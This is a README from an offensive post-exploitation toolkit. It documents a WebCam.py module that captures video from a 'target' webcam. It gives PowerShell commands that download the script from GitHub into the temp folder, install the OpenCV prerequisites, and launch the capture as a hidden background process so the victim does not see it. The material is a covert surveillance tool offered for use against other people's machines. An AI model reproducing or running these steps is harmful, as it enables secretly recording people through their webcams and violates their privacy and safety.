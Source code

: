 ## WebCam.py

|Script Name|Description|Privileges|Notes|
|---|---|---|---|
|WebCam|Capture video using target webcam|User Land|Credits: @AHLASaad \ @AvinabSaha<br />[Article](https://learnopencv.com/read-write-and-display-a-video-using-opencv-cpp-python)|

<br />

**download script:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/WebCam-Capture/WebCam.py1" -OutFile "$Env:TMP\WebCam.py"
```

<br />

**prerequesites checks:**
```powershell
#Check if Pthon3 its installed

#Check if opencv its installed
[bool](pip3 list|findstr /C:"opencv-python")

#Install opencv and numpy modules
pip3 install opencv-python
```

<br />

**execute:**
```powershell
#Edit WebCam.py and change next cmdline to point to our 'python\site-packages' directory
sys.path.append("c:\\users\\pedro\\appdata\\local\\programs\\python\\python39\\lib\\site-packages")

#Start capture
Start-Process -WindowStyle hidden python3 -argumentlist "$Env:TMP\WebCam.py"

#Stop capture
stop-process -name python3.9
```

